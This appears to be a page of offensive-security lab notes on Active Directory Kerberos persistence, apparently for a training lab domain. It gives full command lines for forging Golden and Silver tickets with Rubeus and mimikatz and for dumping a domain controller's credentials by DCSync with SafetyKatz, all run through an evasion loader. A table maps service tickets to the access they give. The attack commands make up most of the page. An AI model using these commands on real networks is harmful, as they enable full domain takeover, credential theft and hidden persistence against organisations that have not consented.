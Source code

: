 ## Persistence

{% tabs %}
{% tab title="GT" %}
Forged TGT using `krbtgt`'s creds → full domain impersonation.

{% code overflow="wrap" %}
```powershell
# Generate a Golden ticket attack command (as std337 on dcorp-std337)
Loader.exe -path Rubeus.exe -args evasive-golden /aes256:<krbtgt-key> /sid:<currentDomainSID> /ldap /user:Administrator /printcmd

# Modify the generated command as required
Loader.exe -path Rubeus.exe -args evasive-golden /aes256:<krbtgt-key> /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:<currentDomainSID> /pwdlastset:"11/11/2022 6:34:22 AM" /minpassage:1 /logoncount:875 /netbios:dcorp /groups:544,512,520,513 /dc:DCORP-DC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt

# Test access on the DC
winrs -r:dcorp-dc "set username & set computername"
```
{% endcode %}
{% endtab %}

{% tab title="ST" %}
Forged TGS → service-level access on a specific host.

<table><thead><tr><th width="140.00006103515625">Service (SPN)</th><th>Provides Access To</th></tr></thead><tbody><tr><td><code>HTTP</code></td><td>WinRM (Windows Remote Management)</td></tr><tr><td><code>CIFS</code></td><td>File system (SMB shares)</td></tr><tr><td><code>HOST</code></td><td>Scheduled tasks, remote service control, WMI (partial, + <code>RPCSS</code>)</td></tr><tr><td><code>RPCSS</code></td><td>WMI (+ <code>HOST</code>), DCOM/RPC endpoint mapper</td></tr><tr><td><code>LDAP</code></td><td>DCSync (requires elevated permissions)</td></tr></tbody></table>

{% hint style="warning" %}
**SPN formatting**: it must conform to Kerberos naming conventions (e.g., `HTTP/web04.corp.com`) and is case-sensitive in some deployments.
{% endhint %}

{% code overflow="wrap" %}
```powershell
# Launch a new process as the DA
Loader.exe -path Rubeus.exe -args asktgt /user:<DA> /aes256:<key> /opsec /createnetonly:c:\windows\system32\cmd.exe /show /ptt

# Dump dcorp-dc$ credentials via DCSync (for WinRM access on the DC)
Loader.exe -path SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\dcorp-dc$" "exit"

# Forge a TGS for WinRM (Rubeus)
Loader.exe -path Rubeus.exe -args evasive-silver /service:http/dcorp-dc.dollarcorp.moneycorp.local /rc4:<dcorp-dc$-rc4> /sid:<domainSID> /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt

# Forge a TGS for WinRM (mimikatz)
Loader.exe -path mimikatz.exe -args "kerberos::golden /sid:<domainSID> /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:<web04$-rc4> /user:jeffadmin" "exit"

# Test access on the DC
winrs -r:dcorp-dc "set username & set computername"
```
{% endcode %}
{% endtab %}
